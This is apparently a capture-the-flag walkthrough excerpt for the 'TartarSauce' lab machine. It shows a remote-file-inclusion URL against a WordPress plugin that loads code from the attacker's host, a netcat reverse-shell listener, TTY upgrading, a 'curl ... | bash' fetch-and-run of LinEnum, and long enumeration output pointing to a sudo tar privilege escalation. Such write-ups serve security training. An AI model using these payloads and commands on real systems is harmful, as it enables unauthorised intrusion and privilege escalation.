

```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/
```




- [`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
root@kali:~/tartarsauce# nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:49186.
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 18:32:42 up 16:29,  0 users,  load average: 0.02, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@TartarSauce:/$ ^Z
[1]+  Stopped                 nc -nlvp 9001
root@kali:~/tartarsauce# echo $TERM
xterm-256color
root@kali:~/tartarsauce# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/tartarsauce# stty raw -echo
root@kali:~/tartarsauce# nc -nlvp 9001
                                      reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@TartarSauce:/$ stty rows 51 columns 204
www-data@TartarSauce:/$ export SHELL=bash
www-data@TartarSauce:/$
```

```sh
root@kali:~/tartarsauce# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-11-05 18:39:36--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47585 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  46.47K  --.-KB/s    in 0.03s

2018-11-05 18:39:36 (1.33 MB/s) - ‘LinEnum.sh’ saved [47585/47585]

root@kali:~/tartarsauce#
```

```sh
root@kali:~/tartarsauce# nano LinEnum.sh
```



```sh
root@kali:~/tartarsauce# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.88 - - [05/Nov/2018 18:43:36] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@TartarSauce:/$ curl http://10.10.14.8/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 47597  100 47597    0     0  86932      0 --:--:-- --:--:-- --:--:-- 86855

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.93

[-] Debug Info
[+] Thorough tests = Enabled


Scan started at:
Mon Nov  5 18:42:41 EST 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux


[-] Kernel information (continued):
Linux version 4.15.0-041500-generic (kernel@kathleen) (gcc version 7.2.0 (Ubuntu 7.2.0-8ubuntu3.1)) #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
TartarSauce


### USER/GROUP ##########################################
[-] Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Wed May  2 10:17:59 -0400 2018
onuma            tty1                      Fri Feb  9 09:00:51 -0500 2018


[-] Who else is logged on:
 18:42:41 up 16:39,  0 users,  load average: 0.02, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(mysql) gid=111(mysql) groups=111(mysql)
uid=108(messagebus) gid=112(messagebus) groups=112(messagebus)
uid=109(uuidd) gid=113(uuidd) groups=113(uuidd)
uid=110(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=111(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
onuma:x:1000:1000:,,,:/home/onuma:/bin/bash


[-] Super user account(s):
root


[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar


[+] Possible sudo pwnage!
/bin/tar


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root  root  4.0K Feb  9  2018 .
drwxr-xr-x 22 root  root  4.0K May  1  2018 ..
drwxrw----  5 onuma onuma 4.0K Feb 21  2018 onuma


[-] Files not owned by user but writable by group:
-rw-rw-rw- 1 root root 730 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/sitemap.xml
-rw-rw-rw- 1 root root 141 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt


[-] Hidden files:
-rw-r--r-- 1 root root 1032 May  1  2018 /etc/init.d/.depend.start
-rw-r--r-- 1 root root 1264 May  1  2018 /etc/init.d/.depend.boot
-rw-r--r-- 1 root root 1213 May  1  2018 /etc/init.d/.depend.stop
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.hourly/.placeholder
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.weekly/.placeholder
-rw-r--r-- 1 root root 1204 May  1  2018 /etc/apparmor.d/cache/.features
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.monthly/.placeholder
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.d/.placeholder
-rw------- 1 root root 0 Aug  1  2017 /etc/.pwd.lock
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.daily/.placeholder
-rw-r--r-- 1 root root 655 May 16  2017 /etc/skel/.profile
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 220 Aug 31  2015 /etc/skel/.bash_logout
-rw-r--r-- 1 root root 0 Nov  5 02:03 /run/network/.ifstate.lock
-rwxr-xr-x 1 root root 485 Feb  9  2018 /var/www/html/webservices/wp/.htaccess
-rwxr-xr-x 1 root root 629 Feb 21  2018 /var/www/html/webservices/wp/wp-content/plugins/akismet/.htaccess
-rwxr-xr-x 1 root root 13 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/css/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/pages/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/snippets/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/users/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/menu/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/emails/css/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.htaccess
-rwxr-xr-x 1 root root 56 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.gitignore
-rwxr-xr-x 1 root root 35 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.travis.yml
-rwxr-xr-x 1 root root 104 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.gitattributes
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/captcha/crypt/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/captcha/crypt/images/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/markitup/markitup/.htaccess
-rwxr-xr-x 1 root root 2229 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/libraries/Gelato/_logs/.empty
-rwxr-xr-x 1 root root 518 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/.gitignore
-rw-rw-r-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/public/uploads/.empty
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/logs/.empty
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/cache/.empty
-rwxr-xr-x 1 root root 47 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/.htaccess
-rwxr-xr-x 1 root root 14 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/minify/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/minify/.empty
-rwxr-xr-x 1 root root 13 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/backups/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/backups/.empty
-rwxr-xr-x 1 root root 13 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/storage/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/storage/blocks/.empty
-rw-r--r-- 1 root root 1319 May  1  2018 /var/lib/apparmor/profiles/.apparmor.md5sums
-rw-r--r-- 1 root root 5025 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.sign-file.cmd
-rw-r--r-- 1 root root 3165 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/selinux/genheaders/.genheaders.cmd
-rw-r--r-- 1 root root 2769 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/selinux/mdp/.mdp.cmd
-rw-r--r-- 1 root root 3472 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.sortextable.cmd
-rw-r--r-- 1 root root 3860 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.insert-sys-cert.cmd
-rw-r--r-- 1 root root 3291 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.recordmcount.cmd
-rw-r--r-- 1 root root 3671 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/kconfig/.conf.o.cmd
-rw-r--r-- 1 root root 4815 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/kconfig/.zconf.tab.o.cmd
-rw-r--r-- 1 root root 110 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/kconfig/.conf.cmd
-rw-r--r-- 1 root root 2318 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.kallsyms.cmd
-rw-r--r-- 1 root root 4407 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.extract-cert.cmd
-rw-r--r-- 1 root root 5229 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.devicetable-offsets.s.cmd
-rw-r--r-- 1 root root 2469 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.mk_elfconfig.cmd
-rw-r--r-- 1 root root 546 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.devicetable-offsets.h.cmd
-rw-r--r-- 1 root root 104 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.elfconfig.h.cmd
-rw-r--r-- 1 root root 4510 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.modpost.o.cmd
-rw-r--r-- 1 root root 2280 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.empty.o.cmd
-rw-r--r-- 1 root root 3391 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.file2alias.o.cmd
-rw-r--r-- 1 root root 129 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.modpost.cmd
-rw-r--r-- 1 root root 4325 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.sumversion.o.cmd
-rw-r--r-- 1 root root 2329 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.conmakehash.cmd
-rw-r--r-- 1 root root 2649 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.genksyms.o.cmd
-rw-r--r-- 1 root root 2419 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.parse.tab.o.cmd
-rw-r--r-- 1 root root 153 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.genksyms.cmd
-rw-r--r-- 1 root root 3263 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.lex.lex.o.cmd
-rw-r--r-- 1 root root 4148 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/basic/.fixdep.cmd
-rw-r--r-- 1 root root 1169 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/basic/.bin2c.cmd
-rw-r--r-- 1 root root 3167 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.asn1_compiler.cmd
-rw-r--r-- 1 root root 193941 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/.config.old
-rw-r--r-- 1 root root 193817 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/.config
-rw-r--r-- 1 root root 770 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/.missing-syscalls.d
-rw-r--r-- 1 root root 3282 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs_32.o.cmd
-rw-r--r-- 1 root root 3262 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs_common.o.cmd
-rw-r--r-- 1 root root 3282 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs_64.o.cmd
-rw-r--r-- 1 root root 146 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs.cmd
-rw-r--r-- 1 root root 402 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/asm/.xen-hypercalls.h.cmd
-rw-r--r-- 1 root root 292 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/asm/.syscalls_32.h.cmd
-rw-r--r-- 1 root root 320 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/uapi/asm/.unistd_64.h.cmd
-rw-r--r-- 1 root root 340 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/uapi/asm/.unistd_x32.h.cmd
-rw-r--r-- 1 root root 315 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/uapi/asm/.unistd_32.h.cmd
-rw-r--r-- 1 root root 53783 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/kernel/.asm-offsets.s.cmd
-rw-r--r-- 1 root root 12444 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/kernel/.bounds.s.cmd
-rw-r--r-- 1 root root 11 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/selinux/genheaders/.gitignore
-rw-r--r-- 1 root root 21 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/selinux/mdp/.gitignore
-rw-r--r-- 1 root root 31 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/kconfig/lxdialog/.gitignore
-rw-r--r-- 1 root root 167 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/kconfig/.gitignore
-rw-r--r-- 1 root root 12 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/gdb/linux/.gitignore
-rw-r--r-- 1 root root 54 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/dtc/.gitignore
-rw-r--r-- 1 root root 154 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/.gitignore
-rw-r--r-- 1 root root 55 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/mod/.gitignore
-rw-r--r-- 1 root root 42 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/genksyms/.gitignore
-rw-r--r-- 1 root root 13 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/basic/.gitignore
-rw-r--r-- 1 root root 11 Nov 15  2017 /usr/src/linux-headers-4.15.0-041500/scripts/selinux/genheaders/.gitignore
-rw-r--r-- 1 root root 21 Nov 15  2017 /usr/src/linux-headers-4.15.0-041500/scripts/selinux/mdp/.gitignore
-rw-r--r-- 1 root root 31 Nov 15  2017 /usr/src/linux-headers-4.15.0-041500/scripts/kconfig/lxdialog/.gitignore
-rw-r--r-- 1 root root 154 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/kconfig/.gitignore
-rw-r--r-- 1 root root 25 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/gdb/linux/.gitignore
-rw-r--r-- 1 root root 54 Jan 29  2018 /usr/src/linux-headers-4.15.0-041500/scripts/dtc/.gitignore
-rw-r--r-- 1 root root 162 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/.gitignore
-rw-r--r-- 1 root root 24 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/gcc-plugins/.gitignore
-rw-r--r-- 1 root root 55 Jan 29  2018 /usr/src/linux-headers-4.15.0-041500/scripts/mod/.gitignore
-rw-r--r-- 1 root root 33 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/genksyms/.gitignore
-rw-r--r-- 1 root root 13 Jan 29  2018 /usr/src/linux-headers-4.15.0-041500/scripts/basic/.gitignore
-rw-r--r-- 1 root root 6432 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.sign-file.cmd
-rw-r--r-- 1 root root 5787 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/selinux/genheaders/.genheaders.cmd
-rw-r--r-- 1 root root 5322 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/selinux/mdp/.mdp.cmd
-rw-r--r-- 1 root root 4626 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.sortextable.cmd
-rw-r--r-- 1 root root 5069 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.insert-sys-cert.cmd
-rw-r--r-- 1 root root 4473 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.recordmcount.cmd
-rw-r--r-- 1 root root 5414 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/kconfig/.conf.o.cmd
-rw-r--r-- 1 root root 6206 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/kconfig/.zconf.tab.o.cmd
